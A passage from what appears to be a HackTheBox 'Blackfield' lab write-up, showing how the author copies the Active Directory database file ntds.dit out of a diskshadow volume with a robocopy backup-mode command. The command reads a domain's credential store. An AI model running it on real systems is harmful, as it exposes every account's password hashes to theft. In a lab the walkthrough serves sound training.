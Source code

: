 ![](/assets/img/HTB/easy/Blackfield/diskshadow.png)
- i will copy ntds from disk that create by diskshadow command to our current directory

```
robocopy /b E:\windows\ntds . ntds.dit
```

![](/assets/img/HTB/easy/Blackfield/robocopy.png)
- let copy ntds.dit to our current direcorty